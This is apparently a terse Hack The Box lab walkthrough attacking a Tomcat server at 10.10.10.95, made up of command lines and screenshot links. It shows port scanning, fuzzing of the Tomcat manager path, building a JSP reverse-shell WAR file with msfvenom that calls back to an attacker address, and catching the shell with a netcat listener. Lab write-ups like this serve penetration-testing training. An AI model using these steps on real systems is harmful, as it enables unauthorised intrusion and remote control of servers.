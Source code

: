 



```
nmap -p- -T5 10.10.10.95
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4576f5f1-7eb0-4800-894b-a92608287032)


```
http://10.10.10.95:8080/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6ec6aea8-028c-4ab0-b49b-0fc4118351ce)


```
http://10.10.10.95:8080/manager/html
```
![image](https://github.com/regarmulia/HTB/assets/33616880/57dac7fa-90ad-49e5-a986-c066fee11282)



```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.95:8080/manager/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1bd86ea5-18df-40be-9281-2a8514ab3c7c)
![image](https://github.com/regarmulia/HTB/assets/33616880/b59b82fd-16cf-44f1-89da-0cbfd394b4e0)


```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=80 -f war -o revshell.war
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0ff1889d-e8a5-4a33-b6ea-6a471eb18edc)


```
http://10.10.10.95:8080/manager/html
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d42e6ba7-54c0-4c82-b94e-b89f3bb38eb8)
![image](https://github.com/regarmulia/HTB/assets/33616880/9c29c581-2444-416b-9892-1607da41cca5)


```
nc -nlvp 80
http://10.10.10.95:8080/revshell/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0ea335c6-ad65-440b-b3fd-6ab22aee021c)
![image](https://github.com/regarmulia/HTB/assets/33616880/e4069ded-888b-472d-b18d-298a77cc78ce)





